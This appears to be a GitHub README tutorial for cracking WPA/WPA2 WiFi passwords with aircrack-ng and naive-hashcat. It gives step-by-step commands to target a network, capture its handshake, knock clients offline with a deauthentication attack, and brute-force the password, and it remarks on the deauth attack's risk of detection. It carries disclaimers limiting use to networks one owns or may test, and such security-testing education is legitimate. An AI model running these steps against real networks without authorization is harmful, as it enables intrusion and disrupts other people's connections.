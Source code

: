 # Cracking WiFi with Aircrack-ng

## Overview
<p align="justify">
This project demonstrates how to crack WiFi passwords using <strong>aircrack-ng</strong> for capturing WPA/WPA2 handshake files and <strong>naive-hashcat</strong> for brute-force cracking. This is intended for educational purposes only to test your own network security, and should never be used to hack unauthorized networks.
</p>

---

## Tools Used
- **Aircrack-ng**: A suite of tools for capturing WPA/WPA2 handshakes and analyzing wireless networks.
- **Naive-Hashcat**: A simple wrapper to use Hashcat for cracking WPA/WPA2 handshakes using GPUs for better performance.

---

## Prerequisites

1. **Hardware**: A wireless card that supports monitor mode (e.g., Alfa AWUS036ACH).
2. **Software**:
   
   - Install `aircrack-ng`:
     
     ```bash
     sudo apt install aircrack-ng
     ```
     
   - Install `hashcat`:
     
     ```bash
     sudo apt install hashcat
     ```
     
   - Install `naive-hashcat`:
     
     ```bash
     git clone https://github.com/hashcat/naive-hashcat.git
     ```
---

## Steps for Cracking

### 1. Capturing WPA Handshake with Aircrack-ng
To capture the WPA/WPA2 handshake:

- Enable monitor mode on your wireless adapter:
  
  ```bash
  sudo airmon-ng start <your-interface> #Example: wlp2s0
  ```
- Scan for available WiFi networks:
  
  ```bash
  sudo airodump-ng <your-monitor-interface> #Example: wlp2s0mon
  ```
  Reminder: Take note of the following from the scan output:
  - BSSID: This is the MAC address of the target WiFi network. You will need it for targeting specific networks.
  - Channel: Each network will be operating on a particular channel, and you'll need to specify this to capture the handshake efficiently.

  What’s displayed after scanning:

  - BSSID: The MAC address of the access points (WiFi networks).
  - PWR: Signal strength of the network.
  - Beacons: Count of beacons sent by the access point.
  - #Data: Number of data packets sent.
  - CH: The channel number the network is operating on.
  - ENC: Encryption type (e.g., WPA2).
  - ESSID: The name (SSID) of the WiFi network.

  The display will include all detected networks and their relevant details. Use this information to identify the target network based on its ESSID, BSSID, and channel.

- Capture handshake:
  
  ```bash
  sudo airodump-ng -c <channel> --bssid <target-BSSID> -w capture <monitor-interface>
  ```
  Explanation of Flags:
  - -c <channel>: Specifies the channel the target network is operating on (e.g., -c 6 for channel 6). You can find this from the scan.
  - --bssid <target-BSSID>: Targets the specific BSSID (MAC address) of the WiFi network.
  - -w capture: Specifies the file name prefix (capture) to save the captured data (it will generate .cap files).

  While running the command, a successful capture will show something like this at the top right of the terminal at current time:
  
  ```bash
    WPA Handshake: <target-BSSID>
  ```
    <p align="justify">
      If you're impatient and don't want to wait for a client to disconnect naturally, you can force a handshake by deauthenticating a connected client. This method sends deauthentication packets to a client, causing them to temporarily lose        connection to the WiFi network. When they reconnect, the handshake will be captured.
    </p>

- Deauthenticate a client to force a handshake:
  
  ```bash
  sudo aireplay-ng --deauth 10 -a <target-BSSID> <your-monitor-interface>
  ```

  **Important Note**
  <p align="justify">
  This method is higher risk for detection, especially with modern devices and access points. Many modern routers and devices have intrusion detection systems (IDS) that can recognize deauthentication attacks. If detected, the network       administrator may be alerted, or protective measures like auto-blocking or changing channels may be triggered.
  </p>

### 2. Cracking the Handshake with Naive-Hashcat
Once you have captured the handshake (.cap file), convert it to .hccapx format using:
```bash
sudo aircrack-ng -J capture capture.cap
```
Then, use naive-hashcat for cracking:
```bash
./naive-hashcat.sh capture.hccapx wordlist.txt
```
After successfully cracking a WiFi password using Hashcat, you should present the results clearly and effectively.
Example output:
```bash
12345678:your_target_wifi_password
```
---

## Resources
- [Aircrack-ng Documentation](https://aircrack-ng.org/documentation.html)
- [Hashcat Documentation](https://hashcat.net/wiki/doku.php?id=hashcat)
- [Naive-Hashcat GitHub Repository](https://github.com/hashcat/naive-hashcat)

--- 

## Disclaimer
> **Warning**: Unauthorized hacking is illegal. Ensure that you are only testing on networks you own or have explicit permission to test.




  
